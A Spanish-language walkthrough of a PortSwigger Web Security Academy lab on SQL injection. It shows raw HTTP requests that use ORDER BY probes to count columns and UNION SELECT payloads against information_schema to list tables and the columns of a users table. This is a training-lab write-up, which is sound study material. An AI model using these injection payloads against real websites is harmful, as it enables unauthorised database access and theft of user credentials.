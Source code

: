 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
---
```


# Lab 5: SQL injection attack, listing the database contents on non-Oracle databases

Se inicia el laboratorio y al interactuar con los filtros de busqueda:

Se genera la siguiente peticion:

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Y la anterior peticion responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 8912

```

Empezamos a validar el numero de campos con ORDER BY:

```
GET /filter?category='+order+by+1-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3920

```

Se procede a incrementar el valor a 2:

```
GET /filter?category='+order+by+2-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Y lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3920

```

Y finalizamos validando con el numero 3:

```
GET /filter?category='+order+by+3-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La inyeccion previa responde con un error:

```
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2423

```

Por lo tanto, podemos afirmar que tenemos 2 campos disponibles para nuestras proximas inyecciones:

Luego de validar que tipo de dato son cada columna, podemos enumerar con el siguiente payload:

```
GET /filter?category='+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La anterior consulta responde asi:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Luego de obtener los nombres de las tablas podemos intentar retornar las columnas de una tabla especifica:

```
GET /filter?category='+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_upxvct'-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

El payload anterior logra retornar los nombres de las columnas de la tabla USUARIOS:

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Utilizando los nombres de las columnas y el nombre de la tabla, se diseña una consulta que retorne los valores que tiene esta tabla:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>
